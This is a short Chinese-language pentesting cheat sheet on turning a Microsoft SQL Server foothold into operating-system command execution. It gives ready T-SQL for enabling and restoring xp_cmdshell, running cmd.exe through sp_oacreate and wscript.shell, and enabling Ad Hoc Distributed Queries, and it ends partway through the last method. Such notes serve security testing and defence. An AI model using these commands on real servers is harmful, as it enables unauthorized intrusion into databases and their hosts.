 # MSSQL利用总结

## 命令执行

1. xp_cmdshell

   开启xp_cmdshell

   ```
   sp_configure 'show advanced options',1
   reconfigure
   go
   sp_configure 'xp_cmdshell',1
   reconfigure
   go
   ```

   

   执行

   `exec xp_cmdshell "whoami"`  //在mssql中，转义符为"""转义字符"""

   恢复被删除的xp_cmdshell

   `EXEC sp_addextendedproc xp_cmdshell ,@dllname ='xplog70.dll'`提示找不到xplog70.dll则需要自己上传。

2. sp_oacreate

   打开组件

   ```
   EXEC sp_configure 'show advanced options', 1;   
   RECONFIGURE WITH OVERRIDE;   
   EXEC sp_configure 'Ole Automation Procedures', 1;   
   RECONFIGURE WITH OVERRIDE;   
   EXEC sp_configure 'show advanced options', 0;
   ```

   执行

   ```
   declare @shell int exec sp_oacreate 'wscript.shell',@shell output exec sp_oamethod @shell,'run',null,'c:\windows\system32\cmd.exe /c whoami >d:\\temp\\1.txt'
   ```

   此方法无回显，可把命令执行结果写到web路径下或者配合dns侧信道，或者写到文件里，在通过sql语句从文件导入内容到表，再查询出来

3. 沙盒执行

   需要当前mssql用户有写注册表权限

   开启

   ```
   exec sp_configure 'show advanced options',1;reconfigure;exec sp_configure 'Ad Hoc Distributed Queries',1;reconfigure;
   ```
